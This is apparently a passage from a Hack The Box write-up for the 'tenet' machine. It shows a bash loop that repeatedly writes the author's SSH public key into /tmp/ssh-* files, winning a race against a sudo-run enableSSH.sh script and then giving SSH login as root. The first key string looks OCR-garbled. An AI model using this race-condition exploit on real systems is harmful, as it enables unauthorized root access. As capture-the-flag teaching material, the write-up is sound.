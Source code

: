 ```bash
key="ssh-rsa AAAAA3NzaG1yc2GAAAAGAQAAAAAAAQG+AMU8OGdqbaPP/Ls7bXOa9jNlNzNOgXiQh6ih2WOhVgGjqr2449ZtsGvSruYibxN+MQLG59VkuLNU4NNiadGry0wT7zpALGg2Gl3A0bQnN13YkL3AA8TlU/ypAuocPVZWOVmNjGlftZG9AP656hL+c9RfqvNLVcvvQvhNNbAvzaGR2XOVOVfxt+AmVLGTlSqgRXi6/NyqdzG5Nkn9L/GZGa9hcwM8+4nT43N6N31lNhx4NeGabNx33b25lqermjA+RGWMvGN8siaGskvgaSbuzaMGV9N8umLp6lNo5fqSpiGN8MQSNsXa3xXG+kplLn2W+pbzbgwTNN/w0p+Urjbl root@ubuntu"
addKey
checkAdded
```

Since `mktemp` will create a random file we need to make a race condition
to write our SSH pub key into it.

```bash
#!/bin/bash

key='ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINDGLndVd+2+y7FE7nVTrMtBvPiLNTMgObVw8s7d9B8n cyfun@penarch'

while true
do
    echo $key | tee /tmp/ssh-* > /dev/null
done
```

We execute that while running `sudo /usr/local/bin/enableSSH.sh`.
Several tries may be necessary because race conditions doesn't always work the 1st time.

Then we can connect as root.

`ssh root@tenet.htb -i ~/.ssh/id_ed25519`
